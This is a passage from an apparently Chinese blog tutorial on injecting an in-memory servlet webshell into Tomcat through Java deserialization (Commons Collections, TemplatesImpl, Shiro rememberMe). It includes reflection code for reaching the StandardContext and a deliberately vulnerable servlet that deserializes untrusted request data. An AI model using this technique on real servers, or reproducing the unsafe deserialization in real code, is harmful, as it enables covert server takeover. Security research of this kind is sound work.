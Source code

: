 ```java
                Field applicationContextFacadeField = applicationContextFacade.getClass().getDeclaredField("context");
                applicationContextFacadeField.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeField.get(applicationContextFacade);
                Field standardContextField = applicationContext.getClass().getDeclaredField("context");
                standardContextField.setAccessible(true);
                StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
                System.out.println(servletRequest);
            }

        }
```

显然threadLocalReq.get()取到的是RequestFacade，和jsp内置对象一样，就可以回到上面已有request继续利用

![image-20250225194511432](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225194511432.png)

但是上面的方法有两个缺点：

1. 在调用ApplicationFilterChain类的internalDoFilter()函数时，调用到了Shiro的ShiroFilter过滤器类、其中会调用到CookieRememberMeManager类的getRememberedSerializedIdentity()函数来获取cookie内容并进行反序列化操作，这个过程都是还在调用应用的doFilter()的时候就触发了，而间于Filter Chain执行之后、调用Servlet实例之前的Request和Response的设置就不起作用了
2. 需要访问两次指定的servlet才能顺利打入内存马，问题是反序列化打TemplatesImpl一般都是只执行一次static块，如何访问两次servlet？

针对第一个问题，在方法3进行解答

针对第二个问题，我刚刚想到一个很简单的办法，虽然一个web应用程序下有好几个不同的servlet映射，但是它们都共用同一个ApplicationFilterChain和StandardContext，反序列化打一个接口同一个字节码两遍即可。

现在我构造一个用CC打入servlet马的例子：

一个有CC入口的漏洞环境：

```java
@WebServlet("/Vuln")
public class vulnServlet  extends HttpServlet {
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        byte[] bytes= Base64.getDecoder().decode(req.getParameter("data"));
        ByteArrayInputStream BAIS=new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream=new ObjectInputStream(BAIS);
        try
        {
            System.out.println(objectInputStream.readObject());
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
